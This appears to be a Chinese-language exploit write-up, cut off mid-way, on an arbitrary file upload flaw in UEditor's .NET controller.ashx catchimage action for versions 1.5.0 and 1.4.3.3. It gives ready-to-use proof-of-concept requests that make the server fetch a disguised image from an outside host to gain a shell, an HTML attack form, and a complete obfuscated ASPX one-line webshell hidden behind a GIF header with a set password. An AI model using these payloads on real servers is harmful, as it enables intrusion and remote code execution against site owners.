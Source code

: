 该漏洞是由于上传文件时，使用的CrawlerHandler类未对文件类型进行检验，导致了任意文件上传。1.4.3.3和1.5.0版本利用方式稍有不同，1.4.3.3需要一个能正确解析的域名。而1.5.0用IP和普通域名都可以。相对来说1.5.0版本更加容易触发此漏洞；而在1.4.3.3版本中攻击者需要提供一个正常的域名地址就可以绕过判断；

**(1) ueditor .1.5.0.net版本**

首先1.5.0版本进行测试，需要先在外网服务器上传一个图片木马，比如:1.jpg/1.gif/1.png都可以，下面x.x.x.x是外网服务器地址，source\[\]参数值改为图片木马地址，并在结尾加上“?.aspx”即可getshell，利用POC：

- 
- 

```php
POST /ueditor/net/controller.ashx?action=catchimagesource%5B%5D=http%3A%2F%2Fx.x.x.x/1.gif?.aspx
```

![图片](https://shs3.b.qianxin.com/butian_public/f44efb4abec235cf1e34fa7003eb9c9ef.jpg)

**(2) ueditor.1.4.3.3 .net版**

1.本地构造一个html，因为不是上传漏洞所以enctype 不需要指定为multipart/form-data， 之前见到有poc指定了这个值。完整的poc如下：

- 
- 
- 
- 

```php
<form action="http://xxxxxxxxx/ueditor/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded"  method="POST">  <p>shell addr: <input type="text" name="source[]" /></p >  <input type="submit" value="Submit" /></form>
```

![图片](https://shs3.b.qianxin.com/butian_public/fa902338c77bce6da93a777dc367b7aed.jpg)

2.需准备一个图片马儿，远程shell地址需要指定扩展名为 1.gif?.aspx，1.gif图片木马（一句话木马：密码：hello）如下：

- 
- 
- 
- 
- 
- 
- 
- 
- 

```php
GIF89a<script runat="server" language="JScript">   function popup(str) {       var q = "u";       var w = "afe";       var a = q + "ns" + w; var b= eval(str,a); return(b);  }</script><% popup(popup(System.Text.Encoding.GetEncoding(65001). GetString(System.Convert.FromBase64String("UmVxdWVzdC5JdGVtWyJoZWxsbyJd")))); %>
```

![图片](https://shs3.b.qianxin.com/butian_public/fa56fbc7ba865be0129d63a8d5da09bf4.jpg)

成功后，会返回马儿地址。

**(3) ueditor.1.3.6 .net1版本**
